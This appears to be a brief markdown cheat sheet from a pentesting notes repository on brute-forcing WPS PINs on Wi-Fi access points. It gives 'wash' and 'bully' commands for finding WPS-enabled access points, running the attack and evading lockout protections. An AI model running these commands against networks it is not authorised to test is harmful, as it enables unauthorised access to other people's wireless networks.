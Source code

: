 # Brute-forcing

Make sure the wireless interface is on monitor mode

Discover APs that supports WPS

```sh
sudo wash -i wlan0mon
```

Start attack

```sh
sudo bully -b <bssid> wlan0mon
```

Bypass WPS Lockdown

```sh
sudo bully -b <bssid> -1 <seconds> -2 <seconds> wlan0mon

sudo bully -b <bssid> -L wlan0mon # disable lockout dection (not recommended)
```

